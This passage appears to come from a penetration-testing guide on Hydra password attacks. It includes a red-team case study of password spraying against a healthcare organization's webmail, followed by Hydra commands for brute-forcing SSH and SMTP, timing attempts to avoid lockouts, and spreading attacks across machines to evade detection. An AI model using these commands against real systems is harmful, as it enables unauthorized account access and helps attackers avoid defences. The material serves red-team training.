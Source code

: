 ![Hydra optimization workflow](./images/hydra_optimization.png)
*Figure 17.6: Balancing performance with detection avoidance in Hydra attacks*

> **CASE STUDY: Password Spraying Attack Against a Healthcare Provider**
> 
> In a 2022 red team engagement for a healthcare organization, we identified that employee accounts were being created with predictable default passwords following a pattern of "Company" + [Current Season] + [Current Year] + "!". 
> 
> Using Hydra with a small, highly targeted password list (just 4 passwords), we performed a controlled password spray across the organization's Outlook Web Access portal, discovering that approximately 22% of accounts still used these default credentials. The attack was executed with significant timing delays (45 seconds between attempts) to avoid triggering account lockouts:
> 
> ```bash
> hydra -L employee_list.txt -p "CompanySpring2022!" -t 1 -c 45 mail.healthcare.org https-post-form "/owa/auth/logon.aspx:username=^USER^&password=^PASS^:Login failed"
> ```
> 
> The success rate of this attack demonstrated the critical importance of enforcing password changes after initial account setup and implementing multi-factor authentication.
> 
> *Source: Anonymized red team assessment report, 2022*

### Operational Security Considerations

Online password attacks carry significant risk of detection and account lockouts. Consider these operational security measures:

#### Account Lockout Prevention

```bash
# Use very small password lists
hydra -l admin -P top10_passwords.txt 192.168.1.100 ssh

# Attack multiple accounts with one password at a time
hydra -L users.txt -p "Spring2023!" 192.168.1.100 smtp

# Add significant delays
hydra -l admin -P small_list.txt -t 1 -c 60 192.168.1.100 ssh
```

#### Distributed Attack Coordination

```bash
# Split password list
split -l 100 passwords.txt split_pw_

# Run from different machines/IPs with different segments
# Machine 1
hydra -l admin -P split_pw_aa 192.168.1.100 ssh

# Machine 2
hydra -l admin -P split_pw_ab 192.168.1.100 ssh
```

